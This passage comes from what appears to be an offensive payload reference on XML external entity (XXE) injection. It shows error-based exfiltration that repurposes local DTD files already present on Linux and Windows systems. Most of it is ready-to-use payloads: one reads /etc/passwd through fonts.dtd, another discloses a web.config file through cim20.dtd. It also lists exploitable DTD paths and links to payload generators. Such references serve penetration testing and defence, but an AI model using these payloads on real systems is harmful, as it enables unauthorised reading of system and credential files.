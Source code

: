 If error based exfiltration is possible, you can still rely on a local DTD to do concatenation tricks. Payload to confirm that error message include filename.

```xml
<!DOCTYPE root [
    <!ENTITY % local_dtd SYSTEM "file:///abcxyz/">
    %local_dtd;
]>
<root></root>
```

* [GoSecure/dtd-finder](https://github.com/GoSecure/dtd-finder/blob/master/list/xxe_payloads.md) - List DTDs and generate XXE payloads using those local DTDs.


#### Linux Local DTD

Short list of DTD files already stored on Linux systems; list them with `locate .dtd`:

```xml
/usr/share/xml/fontconfig/fonts.dtd
/usr/share/xml/scrollkeeper/dtds/scrollkeeper-omf.dtd
/usr/share/xml/svg/svg10.dtd
/usr/share/xml/svg/svg11.dtd
/usr/share/yelp/dtd/docbookx.dtd
```

The file `/usr/share/xml/fontconfig/fonts.dtd` has an injectable entity `%constant` at line 148: `<!ENTITY % constant 'int|double|string|matrix|bool|charset|langset|const'>`

The final payload becomes:

```xml
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/xml/fontconfig/fonts.dtd">
    <!ENTITY % constant 'aaa)>
            <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
            <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///patt/&#x25;file;&#x27;>">
            &#x25;eval;
            &#x25;error;
            <!ELEMENT aa (bb'>
    %local_dtd;
]>
<message>Text</message>
```

#### Windows Local DTD

Payloads from [infosec-au/xxe-windows.md](https://gist.github.com/infosec-au/2c60dc493053ead1af42de1ca3bdcc79).

* Disclose local file

  ```xml
  <!DOCTYPE doc [
      <!ENTITY % local_dtd SYSTEM "file:///C:\Windows\System32\wbem\xml\cim20.dtd">
      <!ENTITY % SuperClass '>
          <!ENTITY &#x25; file SYSTEM "file://D:\webserv2\services\web.config">
          <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file://t/#&#x25;file;&#x27;>">
          &#x25;eval;
          &#x25;error;
        <!ENTITY test "test"'
      >
      %local_dtd;
    ]><xxx>anything</xxx>
  ```
